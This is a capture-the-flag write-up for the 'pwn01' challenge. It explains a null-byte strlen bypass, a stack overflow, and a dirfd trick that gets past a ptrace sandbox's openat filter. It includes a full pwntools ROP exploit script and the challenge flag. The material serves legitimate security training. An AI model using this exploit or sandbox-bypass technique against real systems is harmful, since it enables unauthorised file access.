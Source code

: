 # pwn01 writeup

The binary uses scanf to take all of its input. There is also a strlen check to make sure we don't do
a buffer overflow. We can bypass this strlen check by passing a null byte at the beginning of the string
and then keep reading to get a proper buffer overflow.

As there is no stack canary, we can get return address control easily, and we can ROP.
However the binary is run in a ptrace sandbox which has some filters on some syscalls and tries
to prevent us from reading the flag file or opening the shell.

There is a bug in the filter for the `openat` syscall:

```c
  } else if (sysCall == SYSCALL_OPENAT) { // openat
    int dfd = regs.rdi;
    char actualpath[PATH_MAX+1];
    string fdPath = "/proc/";
    fdPath += to_string(global_child_id);
    fdPath += "/fd/";
    fdPath += to_string(dfd);
    memset(actualpath, 0, sizeof(actualpath));
    if (-1 != readlink(fdPath.c_str(), actualpath, sizeof(actualpath))) {
      string path = actualpath;
      path += "/";
      path += getCString(global_child_id, regs.rsi);
      if (fileInBlackList(path)) {
        gLog.log("Violation detected: opening file ", false); gLog.log(path);
        mKillChild();
        exitCode = EXIT_CODE_VIOLATION;
        break; // do not allow syscall to finish
      }
    } else {
      // false dfd
    }
```

Looking at the openat docs, we see:

```
   openat()
       The openat() system call operates in exactly the same way as open(), except for the differences described here.

       If the pathname given in pathname is relative, then it is interpreted relative to the directory referred to by the  file  descriptor
       dirfd (rather than relative to the current working directory of the calling process, as is done by open() for a relative pathname).

       If pathname is relative and dirfd is the special value AT_FDCWD, then pathname is interpreted relative to the current working direc‐
       tory of the calling process (like open()).

       If pathname is absolute, then dirfd is ignored.
 ```

The sandbox resolves the pathname with dirfd, so if we pass an invalid dirfd, then the ptrace will try to
resolve pathname with the invalid dirfd and fail, allowing us to bypass the flag file path check.

Then, after we have read the flag using openat and read, we can print it using puts.

We also do a first stage ROP to get a libc leak, and then return back to main and do it again and
read the flag.

```py
from pwn import *

#r = process("/home/gift/run.sh")
r = remote("pwn01.grandprix.whitehatvn.com", 26129)
bin = ELF('./giftshop')
poprdi = 0x000000000000225f # pop rdi ; ret
poprsi = 0x0000000000002261 # pop rsi ; ret
poprdx = 0x0000000000002265 # pop rdx ; ret
putsplt = bin.plt['puts']
putsgot = bin.got['puts']
exitplt = bin.plt['exit']
main = 0xda0
pers = 0x0000000024EE
bss = 0x203206
stdin = 0x00203110

#context.log_level = 'debug'

r.recvuntil("here !")
r.recvline()
leak = int(r.recvline().strip(), 16)
print hex(leak)

piebase = leak - 0x2030d8
print "piebase: " + hex(piebase)
r.recvuntil("??")

r.sendline("q\x00/home/gift/../gift/flag.txt")
r.recvuntil("zz:")
r.sendline("q\x00/home/gift/../gift/flag.txt")

r.recvuntil("choice:")

print hex(poprdi+piebase)
print hex(putsgot+piebase)
print hex(putsplt+piebase)

r.sendline("1\x00" + "AAAABBBBCCCCDDDDEEEEFF" + p64(poprdi + piebase) + p64(putsgot + piebase) + p64(putsplt + piebase) + p64(main + piebase))
r.recvline()
libc = r.recvline()[:-1]
print "libc leak:" + libc[::-1].encode('hex')
libc = int(libc[::-1].encode("hex"), 16) - 0x6f690
print "libc: " + hex(libc)

r.recvuntil("here !")
r.recvline()
leak = int(r.recvline().strip(), 16)
print hex(leak)

piebase = leak - 0x2030d8
print "piebase: " + hex(piebase)
r.recvuntil("??")

r.sendline("q\x00/home/gift/../gift/flag.txt")

r.recvuntil("zz:")
r.sendline("q\x00/home/gift/../gift/flag.txt\x00")

r.recvuntil("choice:")

openoff = 0xf7030
openatoff = 0xf70f0
readoff = 0xf7250

#string loc = 0x203122

print hex(libc + openoff)
print hex(libc + readoff)

ropchain = [poprdi + piebase, 0x1234, poprsi + piebase, 0x203122 + piebase, poprdx + piebase, 0, openatoff + libc]
ropchain += [poprdi + piebase, 4, poprsi + piebase, bss + piebase, poprdx + piebase, 200, readoff + libc]
ropchain += [poprdi + piebase, bss + piebase, putsplt + piebase, exitplt + piebase]
payload = ""
for i in ropchain:
    payload += p64(i)

print repr(payload)
r.sendline("1\x00" + "AAAABBBBCCCCDDDDEEEEFF" + payload)

r.interactive()
```

We have to run it a couple of times before it prints out the flag: `WhiteHat{aeb7656b7a397a01c0d9d19fba3a81352e9b21aa}`
